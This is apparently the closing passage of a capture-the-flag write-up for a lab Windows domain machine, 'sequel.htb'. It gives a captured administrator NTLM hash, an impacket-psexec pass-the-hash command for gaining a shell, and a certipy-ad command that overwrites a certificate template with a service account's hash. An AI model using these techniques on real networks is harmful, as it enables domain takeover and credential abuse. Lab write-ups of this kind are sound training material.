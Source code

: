 
<img width="927" height="383" alt="image" src="https://github.com/user-attachments/assets/d2be2fa9-b010-44a1-b707-65b413a1e6f9" />

```
administrator@sequel.htb:7a8d4e04986afa8ed4060f75e5a0b3ff
```

### Connect to the box with psexec

```
impacket-psexec -hashes :7a8d4e04986afa8ed4060f75e5a0b3ff administrator@10.10.11.51
```

<img width="740" height="607" alt="image" src="https://github.com/user-attachments/assets/ea93977b-7852-4784-b023-3d2e36333f09" />



<img width="398" height="56" alt="image" src="https://github.com/user-attachments/assets/93ccbbf4-4c8f-4d79-a647-0aff1d108e4b" />


# If somting fails try to remove the "DunderMifflinAuthentication.json" and re-run the 

```
certipy-ad template -u 'ca_svc@sequel.htb' -hashes 3b181b914e7a9d5508ea1e20bc2b7fce -template DunderMifflinAuthentication -write-default-configuration
```


